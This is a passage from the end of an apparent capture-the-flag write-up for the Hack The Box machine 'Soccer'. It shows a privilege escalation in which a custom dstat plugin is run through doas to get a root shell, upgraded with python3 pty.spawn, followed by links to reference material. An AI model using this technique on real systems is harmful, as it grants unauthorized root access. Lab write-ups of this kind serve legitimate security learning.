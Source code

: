         nfsd3,nfsd3-ops,nfsd4-ops,nfsstat4,ntp,postfix,power,proc-count,qmail,redis,rpc,rpcd,sendmail,snmp-cpu,snmp-load,snmp-mem,
        snmp-net,snmp-net-err,snmp-sys,snooze,squid,test,thermal,top-bio,top-bio-adv,top-childwait,top-cpu,top-cpu-adv,top-cputime,
        top-cputime-avg,top-int,top-io,top-io-adv,top-latency,top-latency-avg,top-mem,top-oom,utmp,vm-cpu,vm-mem,vm-mem-adv,vmk-hba,
        vmk-int,vmk-nic,vz-cpu,vz-io,vz-ubc,wifi,zfs-arc,zfs-l2arc,zfs-zil
    /usr/local/share/dstat:
        xxx
    player@soccer:~$ doas /usr/bin/dstat --xxx
    /usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
    import imp
    # which python3
    /usr/bin/python3
    # python3 -c "import pty;pty.spawn('/bin/bash')"
    root@soccer:/home/player# cd /root
    root@soccer:~# dir
    app  root.txt  run.sql	snap
    ```

## Reference 

[Soccer](https://app.hackthebox.com/machines/519)

[HTML5 WebSocket](https://www.runoob.com/html/html5-websocket.html)

[Nginx WebDAV模块配置简述](https://www.w3schools.cn/nginx/nginx_web_dav.asp)

[Linux中，nginx命令总结](https://zhuanlan.zhihu.com/p/152150935)

[Linux 全能系统监控工具dstat的实例详解](https://cloud.tencent.com/developer/article/1722033)